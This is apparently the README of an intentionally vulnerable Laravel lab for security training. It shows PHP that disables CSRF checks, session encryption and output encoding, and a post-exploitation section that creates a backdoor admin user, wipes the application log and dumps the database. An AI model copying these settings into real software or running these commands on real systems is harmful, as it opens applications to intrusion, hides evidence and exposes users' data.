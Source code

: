## Defense Mechanisms (What's Missing)
- ❌ Input validation
- ❌ Mass assignment protection
- ❌ CSRF verification on all routes
- ❌ Secure file upload validation
- ❌ Rate limiting
- ❌ API authentication
- ❌ Secure session configuration
- ❌ Content Security Policy

## Laravel Security Features (Disabled)

```php
// CSRF Protection Disabled
Route::post('/transfer', 'TransferController@process')
    ->withoutMiddleware(VerifyCsrfToken::class);

// Encryption Disabled
'encrypt' => false, // in config/session.php

// XSS Protection Disabled
Blade::withoutDoubleEncoding(); // Dangerous!
```

## Learning Objectives
- Understanding Laravel security features
- Common Laravel misconfigurations
- Framework-specific vulnerabilities
- Secure Laravel development practices
- Laravel debugging and information disclosure

## Post-Exploitation

```bash
# Create admin user via tinker
php artisan tinker
>>> \App\User::create(['name'=>'hacker','email'=>'hacker@evil.com','password'=>bcrypt('password'),'is_admin'=>true]);

# Clear logs
echo "" > storage/logs/laravel.log

# Dump database
php artisan db:dump
```

## Additional Resources
- [Laravel Security Documentation](https://laravel.com/docs/security)
- [OWASP PHP Security Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/PHP_Security_Cheat_Sheet.html)
- [Laravel Security Best Practices](https://securinglaravel.com/) 